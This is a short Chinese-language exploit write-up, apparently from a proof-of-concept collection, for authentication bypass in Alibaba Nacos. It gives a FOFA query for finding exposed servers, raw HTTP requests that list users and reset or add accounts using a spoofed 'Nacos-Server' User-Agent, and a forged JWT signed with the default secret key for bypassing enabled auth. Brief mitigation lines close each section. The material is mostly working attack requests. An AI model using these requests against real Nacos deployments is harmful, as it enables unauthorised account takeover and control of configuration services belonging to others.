 # Alibaba Nacos认证绕过

## 搜索资产
`fofa：title="Nacos"`

## POC：
#### 查看用户
```shell
GET /nacos/v1/auth/users?pageNo=1&pageSize=100 HTTP/1.1
User-Agent: Nacos-Server
Host: x.x.x.x
Connection: close
```
![](img/query.png)  
请求url不存在的话去掉`/nacos/`尝试  
#### 修改/添加用户
修改用户：使用 PUT 请求，newPassword 参数  
添加用户：使用 POST请求，password 参数  
```shell
PUT /nacos/v1/auth/users HTTP/1.1
Host: x.x.x.x
User-Agent: Nacos-Server
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

username=nacos&newPassword=bbbb
```
![](img/add.png)
请求url不存在的话去掉`/nacos/`尝试  
#### 防御方法
开启鉴权：在application配置文件中修改nacos.core.auth.enabled为true  

## 开启鉴权绕过
## POC
#### 获取Cookie
调用登陆接口添加请求头：`Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTE5NH0.ZZcQGFGfsFBmmf2eDSwL2Cpz9QOLgxVoVt8MbV25J84`  
```shell
POST /nacos/v1/auth/users/login HTTP/1.1
Host: 172.16.7.149:8848
Content-Type: application/x-www-form-urlencoded
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTE5NH0.ZZcQGFGfsFBmmf2eDSwL2Cpz9QOLgxVoVt8MbV25J84
Content-Length: 25

username=aaa&password=aaa
```
![](img/bypassLogin.png)
#### 修改/添加用户
调用修改用户接口添加请求头`Authorization`和上一步获取到的`Cookie`  
```
PUT /nacos/v1/auth/users HTTP/1.1
Host: 172.16.7.149:8848
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3ODg5OTE5NH0.ZZcQGFGfsFBmmf2eDSwL2Cpz9QOLgxVoVt8MbV25J84
Cookie: JSESSIONID=55DDC753866DA432CE9D87A6BC8B517C
Content-Type: application/x-www-form-urlencoded
Content-Length: 32

username=nacos&newPassword=abcde
```
![](img/bypassAdd.png)
#### 防御方法
修改默认token.secret.key的值